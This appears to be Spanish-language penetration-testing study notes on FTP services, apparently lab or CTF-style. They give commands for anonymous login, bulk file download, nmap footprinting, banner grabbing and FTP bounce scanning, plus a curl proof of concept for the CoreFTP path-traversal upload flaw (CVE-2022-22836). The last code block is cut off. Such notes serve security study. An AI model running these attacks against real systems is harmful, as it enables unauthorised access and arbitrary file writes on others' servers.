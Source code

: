 #ftp
## Interactuar con el servicio
### Conexión al servicio
```bash
ftp $target 
# a continuación probar con usuario anonymous
# Ejemplo poniendo usuario y en otro puerto
ftp anonymous@$target -P 2121
# Descargar un archivo
get archivo.txt

#Subir un archivo
put testupload.txt
```
### Descargar todos los archivos disponibles
```bash
wget -m --no-passive ftp://anonymous:anonymous@$target
```
### Montar servidor ftp
```bash
sudo python3 -m pyftpdlib --port 21
```
## Footprinting
### nmap básico
```bash
sudo nmap -sV -p21 -sC -A $target
```
Podemos encontrar los scripts relacionados con FTP con el siguiente comando
```bash
find / -type f -name ftp* 2>/dev/null | grep scripts
```
### Banner grabbing
```bash
# Si no hay una capa de TLS/SSL
nc -nv $target
telnet $target
# Si hay una capa de encriptación
openssl s_client -connect $target:21 -starttls ftp
```
## Ataques específicos del protocolo
### Fuerza bruta
[[Fuerza bruta#Servicios de red|sección de Fuerza bruta]]
### FTP bounce
Peermite a un atacante usar un servidor FTP como intermediario para enviar datos a otros sistemas en la red, haciendo que el ataque parezca originarse desde el servidor FTP
#### Enviar comando con `PORT`
```bash
PORT h1,h2,h3,h4,p1,p2
```
- **h1,h2,h3,h4**: Dirección IP de destino (en este caso, 10.10.10.11).
- **p1, p2**: Puerto codificado como dos bytes (puerto = `p1 * 256 + p2`)
Ejemplo: 
```bash
ftp 10.10.110.213
PORT 172,17,0,2,0,21
```
En función de si el puerto 21 de `172.17.0.2` está abierto devolverá un mensaje u otro
#### nmap
La flag `-b` permite realizar un ataque de este tipo: 
```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
### CoreFTP
 Si al mostrar la versión del servicio ftp nos encontramos con que es un servidor de tipo CoreFTP, puede ser vulnerable ([CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836) ). Esta vulnerabilidad permite hacer una soliciitud tipo `HTTP PUT` con la que podemos subir contenido en un lugar arbitrario de la máquina
```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
Ejemplo 
```bash
xampp/ht

```